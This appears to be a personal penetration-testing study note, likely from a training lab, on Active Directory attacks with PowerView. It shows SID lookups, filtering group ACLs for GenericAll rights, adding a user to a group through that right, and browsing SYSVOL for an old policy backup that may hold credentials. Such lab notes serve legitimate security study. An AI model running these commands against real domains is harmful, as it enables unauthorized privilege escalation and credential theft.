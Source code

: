 ![[Pasted image 20240516013553.png]]

Output is too much!!

### Converting the ObjectISD into name

```
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553

Convert-SidToName [SID]
```

![[Pasted image 20240516013746.png]]

### get all SID of genericall to specific group

```
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

![[Pasted image 20240516013923.png]]

```
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

![[Pasted image 20240516013941.png]]

### add user to that group where user have genericall perm

```
net group "Management Department" stephanie /add /domain

Get-NetGroup "Management Department" | select member
```

![[Pasted image 20240516014016.png]]


# Shares

with powerview

```
Find-DomainShare
```

![[Pasted image 20240516023110.png]]

```
ls \\dc1.corp.com\sysvol\corp.com\

ls \\dc1.corp.com\sysvol\corp.com\Policies\

cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```
